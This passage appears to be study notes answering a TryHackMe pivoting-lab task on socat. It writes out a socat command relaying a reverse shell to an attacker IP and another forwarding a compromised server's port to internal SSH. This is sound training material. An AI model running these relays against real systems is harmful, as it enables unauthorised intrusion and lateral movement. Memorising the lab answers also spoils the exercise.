 - [x] Task 13: [[SoCat]]
Which socat option allows you to reuse the same listening port for more than one connection?
	reuseaddr
If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

Use TCP port 8000 for the server listener, and **do not** background the process.
	./socat tcp-l:8000 tcp:172.16.0.200:443
What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
	./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &
**Bonus Question (Optional):** Try to create an encrypted port forward or relay using the `OPENSSL` options in socat. Task 7 of the [shells](https://tryhackme.com/room/introtoshells) room may help with this.